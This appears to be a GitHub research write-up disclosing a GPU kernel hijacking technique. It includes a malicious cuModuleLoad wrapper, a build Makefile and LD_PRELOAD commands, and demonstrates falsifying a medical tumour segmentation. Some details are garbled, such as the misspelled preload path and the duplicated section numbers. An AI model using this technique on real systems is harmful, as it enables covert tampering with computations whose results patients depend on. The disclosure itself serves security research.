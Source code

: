 # <center><font size=5> A Kernel Hijacking Vulnerability on NVIDIA GPUs</font></center>

We found a kernel hijacking vulnerability on NVIDIA GPUs. Attackers can manipulate the invocation mechanism of the CUDA driver APIs, and replace the kernel loading API by a malicious one, which can be exploited to launch a GPU kernel hijacking attack covertly. The remainder of this paper is organized as follows. Section I introduces the basics of GPU programming model. Section II details the GPU kernel hijacking method. Section III presents an interesting attack case.



## <font size=5> I. Introduction</font>

In a GPU-based parallel computing platform, the GPU serves as a co-processor (device) of a CPU (host). On the one hand, a host needs to use APIs provided by the manufacturer to manage a GPU, such as sending the original data, launching the target GPU and receiving the final results. On the other hand, the GPU executes a specific kernel function to realize data processing acceleration.

**Device side**: as shown in the right of Fig. 1, a GPU kernel is a specific function executed on the target GPU, which implements two vector additions in parallel. A kernel is usually programmed in C/C++ language. We need to use the NVIDIA compiler NVCC to compile the kernel source code into a set of executable machine code instructions. Specifically, it is first compiled into PTX (parallel thread execution) code which is an intermediate-level and virtual instruction set. Then, the PTX code will be further compiled into a set of SASS instructions which can be directly executed on GPU. Finally, these instructions are packaged in an executable binary file (.cubin file).

**Host side**: as shown in the left of Fig. 1, a host uses a group of driver APIs to manage the above kernel. It typically involves three steps: inputting the original data, invoking the kernel to process data and receiving the final results. First, since a GPU has its independent memory system, a host requires to allocate data space on it and then copy input data from host memory into the device memory (line 5-10). Then, the host manages and launches the kernel to process input data on the GPU (line 11-20). Specifically, the host first creates a context to maintain the state of the target GPU (line 13-14). Then, according to the kernel file's path, the host loads the above kernel into a module(line 15-16), and extracts the function from the module by kernel's name (line 17-18). Finally, the host configures and launches the kernel to process data with a certain computing resource, such as the number of threads, size of shared memory, etc. (line 19-20). 

![GPU1](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/programming_model.png)



## <font size=5> III. Attack Method</font>

In this section, we first analyze the invocation mechanism of driver API and then detail how to manipulate a malicious API to hijack GPU kernel.

As shown in Fig. 2 (a), a CUDA program contains two parts, device code and host code. The device code is compiled into an executable kernel file by NVCC. Meanwhile, the host code is compiled by G++ and executed in the host memory space. When a host program needs to invoke a group of APIs to manage the GPU kernel, their DLLs will be linked to the target program by the linker and executed in host memory. Specifically, when a host requires to call the **cuModuleLoad** function to load a kernel, the operating system (like Linux) first uses the dynamic linker **ld.so** to load its DLL (dynamic link library) from the CUDA APIs library into host memory. Next, this DLL will be linked to the target program and executed to load the kernel into a computing module. Finally, we conclude that the API invocation mechanism has the characteristics of dynamic loading and sharing, which can protect intellectual property and save memory usage.

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/hijack.png)

Unfortunately, the API invocation mechanism exists security risks. The dynamic linker can be manipulated by an adversary to implement kernel hijacking.
In detail, the linker only inspects the interface of a API and does not have other verification strategies. Moreover, it also provides a preloading mechanism. A specific API can be linked to the target program with a higher priority. Therefore, an adversary can craft a disguised kernel loading API to replace the normal one and thus hijack the GPU kernel. To achieve this goal, the following two conditions must be met.

**(1) The same application binary interface.** The API's DLL is a binary file, and the dynamic linker only checks its interface, such as function name, number and type of arguments. Therefore, an attacker can construct a malicious API that maintains the same interface as the original one. In the malicious API, an attacker can implement arbitrary logic.

**(2) The higher linking priority.** To replace the normal API invocation with a malicious one, it is necessary to raise the linking priority of the malicious DLL. Modern operating systems, like Linux, provide a DLL preloading mechanism, which can escalate the linking priority of a DLL. Hence, the victim GPU application could wrongly prioritize calling the malicious API.

Finally, an attacker can hijack a GPU kernel through the above two steps. We conclude the principle of our kernel hijacking method in Fig. 2 (b). The attacker first elaborately designs a malicious API/DLL and modifies the load sequence of the dynamic linker. Second, when a victim GPU application is required to invoke a specific API, the linker will preload the malicious DLL to replace the normal one. Third, once the malicious DLL is executed, it will hijack the GPU kernel and inject malicious logic into it. Finally, the Trojan-infected kernel is loaded into GPU and launched to implement illegal purposes.




## <font size=5> III. Attack Case </font>

Image processing is one of the most important GPU applications. GPU can calculate a large number of pixels simultaneously, which greatly accelerates image processing. In this subsection, we implement a medical image segmentation application on GPU and show how to tamper with the segmentation result.

**Experimental Setup**

| Operating System |              GPU Model               | CUDA Version |
| :--------------: | :----------------------------------: | :----------: |
|  Ubuntu 2022.04  | NVIDIA GTX1050 (Pascal Arch., SM_61) |     12.2     |

**Victim**

As shown in Fig. 3 (a), it is a brain magnetic resonance imaging. Compared to the normal area, the gray value of the tumor region is significantly higher. Hence, the medical personnel can utilize a threshold segmentation algorithm to highlight the affected brain area. If the pixel value is greater than the threshold, it will be reassigned to a new gray value, like 255 (white). Otherwise, it will be assigned to 0 (black). After all the pixels are processed, the medical personnel can acquire the detected tumor region. 

```c++
__global__ void kernel(unsigned char I_image, //input image
                       unsigned char O_image) //output image
{
	int i=blockDim.x*blockIdx.x+threadIdx.x;
    int threshold = 230;
    /* threshold segmentation */
	if (I_image[i]>threshold)
		O_image[i]=255;
	else
		O_image[i]=0;
}
```
Finally, the victim compiles and executes this kernel. In Fig. 3 (b), we show the processed image, where the white region is the detected tumor. We can observe that the tumor area is large, which indicates the patient's condition is very serious. The entire program is located in **/ImageProcess/segment_gpu**. 

```
./image_segment.o
```

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/tumor.png)

**Attacker**

An attacker designs a malicious kernel loading API and compiles it to a DLL, as introduced in Section II. An attacker implements a malicious kernel loading API which has the same interface with the normal one. In the malicious API, attacker illegally modifies the GPU kernel file. This entire program is located in **/ImageProcess/hijack_tool/hijack.cu**. 

```c++
CUresult CUDAAPI cuModuleLoad(CUmodule *module, const char *fname)
{
	//1.inject malicous instruction into cubin
	char* image = injector(fname);
	//2.load malicious cubin image into cuModule
	CUresult code = cuModuleLoadData(module, image);
	if(code!=CUDA_SUCCESS)
	{
		return CUDA_ERROR_INVALID_VALUE;
	}
	return CUDA_SUCCESS;
}
```

After that, attacker compiles the malicious kernel loading API to a dynamic link library (DLL). The compile command is located in **/ImageProcess/hijack_tool/Makefile**. 

```makefile
image_hijack.so: hijack.o
	nvcc -arch=sm_61 hijack.o -lcuda -lcudart_static -shared -o image_hijack.so
	
hijack.o: hijack.cu
	nvcc -Xptxas -astoolspatch --keep-device-functions -arch=sm_61 -Xcompiler -fPIC -c hijack.cu -o hijack.o

clean:
	rm -f *.so *.o
```

Next, the attacker modifies the pre-loading environment variable "LD_PRELOAD" or the pre-loading  configuration file "/etc.ld.so.preload" to escalate the linking priority of the malicious DLL.

```
LD_PRELOAD = ./image_hijack.so
```

```
sudo vim /etc.ld.so.preload
./image_hijack.so
```

Finally, once the victim launch the CUDA program, the malicious API will hijack the GPU kernel and implant a Trojan. As shown in Fig. 4, it will make the detected tumor area decrease sharply. We can observe that the tumor area is very small, which may cause a misjudgment of the patient's condition. This can result in a serious medical accident. 

